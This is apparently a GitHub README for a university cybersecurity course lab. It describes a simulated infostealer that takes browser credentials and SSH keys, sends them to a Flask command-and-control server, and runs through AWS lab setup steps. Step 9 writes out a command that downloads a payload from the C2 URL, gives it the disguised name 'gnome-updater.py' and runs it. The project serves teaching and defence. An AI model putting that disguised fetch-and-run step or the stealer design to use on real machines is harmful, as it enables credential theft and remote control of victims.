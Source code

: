 # 🕵️‍♂️ InfoStealer and C2 Persistence

[![Status](https://img.shields.io/badge/Status-Educational%20Project-blue.svg)](https://www.unb.br/)
[![License](https://img.shields.io/badge/License-MIT-green.svg)](LICENSE)

This repository presents an infostealer malware project with Command & Control (C2) infrastructure, developed for educational purposes in the **CyberSecurity Fundamentals** discipline at **UnB 2025.1**.

## 🎯 Project Objective

The main objective is to develop and implement a laboratory environment for simulating a cyberattack focused on **credential and sensitive data theft via Infostealer**, and maintaining **persistence through a C2 infrastructure**. The simulation aims to understand the dynamics of such attacks and propose **comprehensive solutions** (technical, operational, and procedural) for their detection, prevention, and mitigation.

This work was developed as part of the **CyberSecurity Fundamentals Seminar at UnB 2025.1**.

## ✨ Features

The project simulates a multi-stage attack, including the following key components:

* **HID Device Infection Vector (Simulated BadUSB):**
    * Simulates a USB drive that emulates a keyboard (BadUSB) to inject initial commands into the victim machine.
    * Injects commands to download and execute the Infostealer autonomously on the target machine.
* **Infostealer (Malicious Client):**
    * Developed in **Python** for multi-platform compatibility (Linux demonstrated).
    * Collects browser credentials (**Firefox**, **Chromium**).
    * Collects sensitive files (**.bash_history**, **SSH keys**).
    * Searches for **.txt** files containing keywords in their names.
    * Collects system information.
    * Exfiltrates complete files and collected information to the C2 via **HTTP POST**.
* **Command & Control (C2 Server):**
    * Implemented in **Flask (Python)**.
    * Receives and stores exfiltrated data, organized by victim ID and category.
    * Serves the `stealer_client.py` payload for download.
    * Allows the operator to send arbitrary commands to the Infostealer client, receiving the output.
    * Maintains client persistence.

## ⚙️ Lab Setup

1. **Install Required Tools**
    - Download and install [Terraform](https://www.terraform.io/downloads.html).
    - Download and install [Ansible](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html) (not just the core).
    - Download and install [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).

2. **Set Up AWS Credentials and SSH Keys**
    - Create an AWS account and generate an Access Key for CLI usage.
    - Run `aws configure` to set up your credentials.
    - Create a SSH `key_pair` for your VMs

3. **Configure Variables**
    - Edit `variables.tfvars` and set your `key_pair` and IP address.
    - You can find your IP address with:  
      ```bash
      curl https://ipinfo.io/ip
      ```

4. **Prepare Deployment Script**
    - Make the deployment script executable:  
      ```bash
      chmod +x deploy.sh
      ```

5. **Deploy Infrastructure**
    - Run the deployment script, passing the path to your private key:  
      ```bash
      ./deploy.sh path-to-private-key
      ```
    - The script runs `terraform apply -auto-approve` and `ansible-playbook -i hosts playbook.yaml`.  
      You can also run these commands manually if needed and for terraform run `terraform apply` without `-auto-approve` to be asked to perform the actions.

6. **Access the Virtual Machines**
    - SSH into the web server VM:  
      ```bash
      ssh ubuntu@<IP_VM> -i path-to-private-key
      ```

7. **Troubleshooting**
    - If you see an error like:
      ```
      fatal: [<IP>]: UNREACHABLE! => {"changed": false, "msg": "Failed to connect to the host via ssh: ssh: connect to host <IP> port 22: Connection timed out", "unreachable": true}
      ```
      This can rarely happen when running `deploy.sh`. If it does, simply run the script again.

8. **Manual Fix**
    - On the victim **and** protected VMs, you need to run a script to seed the sensitive data in the machines:
      ```bash
      cd /tmp && ./seed_sensitive_files.sh
      ```

9. **Simulate and Detect the InfoStealer Attack**
    - On the victim VM, run (simulation of the USB):
      ```bash
      mkdir -p ~/.config/.systemd-user/ && cd ~/.config/.systemd-user/

      wget ${C2_URL}/security_debian_x386 -O gnome-updater.py && chmod +x gnome-updater.py && python3 gnome-updater.py
      ```

        ## **TODO: INSERT THE OTHER STEPS**

10. **Destroy and Clean Up the Environment**
    - To remove all provisioned resources and avoid unnecessary charges, run:
        ```bash
        terraform destroy
        ```
- **WARNING: If you do NOT destroy the infrastructure after use, AWS may CHARGE YOU for active resources if you exceed the AWS Free Tier limits!**


> **NOTE:** While this setup is designed to stay within AWS Free Tier limits, you may incur small charges (a few cents) for data transfer.

## 🛡️ Detection and Mitigation Strategies

The project emphasizes proposing comprehensive solutions for detecting, preventing, and mitigating the simulated attack.

* **Technical Controls:** Firewall, EDR/Antivirus, OS hardening, log monitoring, network traffic analysis (IDS/IPS).
* **Operational Measures:** Incident Response Plan (IRP), threat hunting, backups.
* **Procedural Measures:** User awareness regarding social engineering and secure USB usage, USB device usage policies, principle of least privilege.

## ⚠️ Disclaimer

**This project is strictly for educational purposes within the CyberSecurity Fundamentals discipline at the University of Brasília (UnB 2025.1). It must not be used in production environments, real networks, or for any malicious activity. Misuse of this code is the sole responsibility of the user.**

---
